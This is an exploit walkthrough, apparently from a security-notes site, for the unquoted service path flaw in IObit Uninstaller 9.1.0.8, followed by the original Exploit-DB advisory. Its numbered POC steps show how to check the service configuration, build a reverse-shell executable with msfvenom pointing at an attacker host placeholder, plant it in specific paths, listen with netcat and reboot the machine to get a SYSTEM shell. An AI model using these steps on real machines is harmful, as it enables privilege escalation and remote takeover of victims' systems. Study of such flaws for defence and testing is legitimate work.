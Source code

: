 ```yaml
---
description: >-
  https://awesome.hackpuntes.com/exploit-db/iobit-uninstaller-9.1.0.8-iobitunsvr-unquoted-service-path
---
```


# IObit Uninstaller 9.1.0.8 - 'IObitUnSvr' Unquoted Service Path

{% embed url="https://www.exploit-db.com/exploits/47538" %}

### FILES

{% file src="../.gitbook/assets/iobituninstaller-v9.1.0.8.zip" caption="Vulnerable software" %}

### POC

{% embed url="https://www.youtube.com/watch?v=pUC3vwhqaH0" %}

1. Install vulnerable software
2. **`Windows + R`** and type **`cmd`**
3. Execute command **`sc qc IObitUnSvr`**
4. ```text
   C:\>sc qc IObitUnSvr
   [SC] QueryServiceConfig SUCCESS
   SERVICE_NAME: IObitUnSvr
           TYPE               : 10  WIN32_OWN_PROCESS
           START_TYPE         : 2   AUTO_START
           ERROR_CONTROL      : 0   IGNORE
           BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
           LOAD_ORDER_GROUP   :
           TAG                : 0
           DISPLAY_NAME       : IObit Uninstaller Service
           DEPENDENCIES       :
           SERVICE_START_NAME : LocalSystem
   ```
5. **`BINARY_PATH_NAME`** contains spaces and isn’t enclosed within quotes
6. Make a malicious exe`msfvenom -p windows/shell_reverse_tcp LHOST=[IP-ATTACKER] LPORT=[PORT-ATTACKER] -f exe -o IObit.exe`
7. Copy a malicious exe in some path like the following
   1. **C:\Program.exe**
   2. **C:\Program Files.exe**
   3. **C:\Program Files \(x86\)\IObit\IObit.exe**
8. Listen on attacker machine **`nc -lvnp 5555`**
9. Reboot victim system
10. When the victim machine reboots, you will get a reverse shell with admin system privileges

### ORIGINAL

```text
# Title: IObit Uninstaller 9.1.0.8 - 'IObitUnSvr' Unquoted Service Path
# Author: Sainadh Jamalpur
# Date: 2019-10-22
# Vendor Homepage: https://www.iobit.com
# Software Link: https://www.iobit.com/en/advanceduninstaller.php
# Version : 9.1.0.8
# Tested on: Windows 10 64bit(EN)
# CVE : N/A

# 1. Description:
# Unquoted service paths in IObit Uninstaller v9.1.0.8 have an unquoted service path.

# PoC
===========
C:\>sc qc IObitUnSvr
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: IObitUnSvr
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : IObit Uninstaller Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\>

#Exploit:
============
A successful attempt would require the local user to be able to insert their code in the system root path undetected by the OS or other security applications where it could potentially be executed during application startup or reboot. If successful, the local user's code would execute with the elevated privileges of the application.

# Disclaimer
=============
The information contained within this advisory is supplied "as-is" with no warranties or guarantees of fitness of use or otherwise.
The author is not responsible for any misuse of the information contained herein and accepts no responsibility for any damage caused by the use or misuse of this information.
The author prohibits any malicious use of security related information or exploits by the author or elsewhere.
```

